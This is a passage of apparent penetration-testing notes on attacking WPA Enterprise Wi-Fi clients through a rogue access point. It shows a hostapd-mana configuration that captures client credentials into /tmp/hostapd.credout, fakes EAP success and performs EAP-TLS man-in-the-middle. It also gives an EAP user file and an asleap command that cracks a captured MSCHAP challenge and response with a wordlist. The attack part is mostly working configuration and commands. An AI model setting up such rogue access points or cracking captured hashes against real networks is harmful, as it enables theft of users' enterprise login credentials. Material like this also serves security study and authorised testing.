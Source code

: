 ```
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1

...

We'll now need to create the EAP user file referenced in the configuration file:

/etc/hostapd-mana/mana.eap_user

The file should contain the following:
...

*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]

...

```

## Crack Password
```
asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4 -W /usr/share/john/password.lst



```

--------------
## Other Notes
### WPA enterprise
Each user uses his own user and password (if client certificates are not used). Each user's traffic is encrypted with a different key. Connection in windows:

Looks like a captive portal but it's safer. In WPA enterprise we attack the clients, not the AP nor the RADIUS 

Companies usually create their own CA to validate their certificates and make our forged certificates fail. For that they need to install a company certificate in every client
